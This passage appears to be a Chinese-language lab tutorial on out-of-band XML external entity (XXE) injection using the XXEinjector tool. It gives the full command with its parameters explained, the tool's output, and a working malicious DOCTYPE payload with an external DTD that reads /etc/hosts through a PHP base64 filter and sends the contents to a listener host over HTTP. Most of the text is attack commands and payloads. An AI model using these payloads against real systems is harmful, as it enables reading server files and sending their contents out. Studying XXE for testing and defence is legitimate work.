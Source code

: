 运行 XXEinjector

`sudo ruby XXEinjector.rb --host=192.168.1.17 --path=/etc/hosts --file=phprequest.txt  --proxy=127.0.0.1:8081 --oob=http --verbose --phpfilter`

参数说明

host: 用于反向连接的 IP
path: 要读取的文件或目录
file: 原始有效的请求信息，可以使用 XXEINJECT 来指出 DTD 要注入的位置
proxy: 代理服务器，这里使用burp，方便查看发起的请求和响应
oob：使用的协议，支持 http/ftp/gopher，这里使用http
phpfilter：使用 PHP filter 对要读取的内容进行 base64 编码，解决传输文件内容时的编码问题
运行后会输出 payload 和 引用的 DTD 文件

```
XXEinjector git:(master) sudo ruby XXEinjector.rb --host=192.168.1.17 --path=/etc/hosts --file=phprequest.txt  --proxy=127.0.0.1:8081 --oob=http --verbose --phpfilter
Password:
XXEinjector by Jakub Pałaczyński

DTD injected.
Enumeration locked.
Sending request with malicious XML:
http://192.168.1.28:80/xmlinject.php
{"User-Agent"=>"curl/7.43.0", "Accept"=>"*/*", "Content-Length"=>"159", "Content-Type"=>"application/x-www-form-urlencoded"}

<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://192.168.1.17:80/file.dtd">%remote;%int;%trick;]>
<creds>
  <user>Ed</user>
  <pass>mypass</pass>
</creds>

Got request for XML:
GET /file.dtd HTTP/1.0

Responding with XML for: /etc/hosts
XML payload sent:
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://192.168.1.17:80/?p=%payl;'>">
```

payload为

```
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://192.168.1.17:80/file.dtd">%remote;%int;%trick;]>
```

DTD文件为

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://192.168.1.17:80/?p=%payl;'>">
```
